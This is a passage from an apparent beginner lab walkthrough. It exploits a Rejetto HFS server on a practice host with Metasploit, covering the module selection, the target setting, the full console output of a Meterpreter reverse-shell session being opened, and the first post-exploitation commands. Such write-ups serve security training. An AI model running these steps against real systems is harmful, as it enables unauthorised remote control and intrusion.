 **Command 2: Choose the Exploit**
```bash
use exploit/windows/http/rejetto_hfs_exec
```
This selects the specific exploit for HFS that we found in our search.

**Command 3: Set the Target**
```bash
set RHOSTS demo.ine.local
```
- `RHOSTS` = Remote Hosts (the targets we want to attack)
- `demo.ine.local` = Our specific target

**Command 4: Launch the Attack**
```bash
exploit
```

#### **What Happened:**
```bash
msf6 > use exploit/windows/http/rejetto_hfs_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS demo.ine.local
RHOSTS => demo.ine.local
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.31.2:4444
[*] Using URL: http://10.10.31.2:8080/HjrdcpIVnDL5bBV
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /HjrdcpIVnDL5bBV
[*] Sending stage (176198 bytes) to 10.0.22.143
[*] Meterpreter session 1 opened (10.10.31.2:4444 → 10.0.22.143:49245) at 2024-07-09 10:50:24 +0530

meterpreter >
```

#### **🎉 SUCCESS! What Just Happened:**
- **Reverse TCP handler started** - Our computer is listening for connections
- **Malicious request sent** - We sent a specially crafted attack to the web server
- **Payload delivered** - Attack code was successfully executed
- **Meterpreter session opened** - We now have control of the target!

**What is Meterpreter:** It's like having a remote control for the target computer. We can run commands, browse files, and do almost anything.

---

### **Step 6: Who Are We? (Initial Reconnaissance)**

**What We're Doing:** Finding out what user account we're running as and gathering basic system information.

#### **Commands Used:**
```bash
getuid
sysinfo
```
